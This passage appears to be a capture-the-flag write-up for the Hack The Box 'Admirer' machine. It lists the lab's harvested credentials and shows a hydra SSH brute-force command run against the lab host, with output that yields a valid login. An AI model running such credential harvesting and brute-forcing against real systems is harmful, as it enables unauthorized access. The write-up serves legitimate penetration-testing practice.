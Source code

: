 {%highlight text%}
admirer/html$ ls
assets  images  index.php  robots.txt  utility-scripts  w4ld0s_s3cr3t_d1r
admirer/html/utility-scripts$ ls
admin_tasks.php  db_admin.php  info.php  phptest.php
{%endhighlight%}

# Rabbit Holes (Optional Read)
I found some database credentails in dump.sql 

{%highlight text%}
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
{%endhighlight%}

And I found a **ton** of credentials in all the files. Here is the list of all of them so far

{%highlight text%}
[Bank Account]
waldo.11
Ezy]m27}OREc$
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P
[FTP account]
ftpuser
%n?4Wz}R$tTF7
[Wordpress account]
admin
w0rdpr3ss01!
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
{%endhighlight%}

So I try SSH login brute-force with a list of all the passwords and username as "waldo".

{%highlight text%}
hydra -L user -P pass -t 4 10.10.10.187 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-06 10:32:59
[DATA] max 4 tasks per 1 server, overall 4 tasks, 120 login tries (l:20/p:6), ~30 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 56 to do in 00:01h, 4 active
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-06 10:34:57
http://10.10.10.187/utility-scripts/adminer.php
{%endhighlight%}
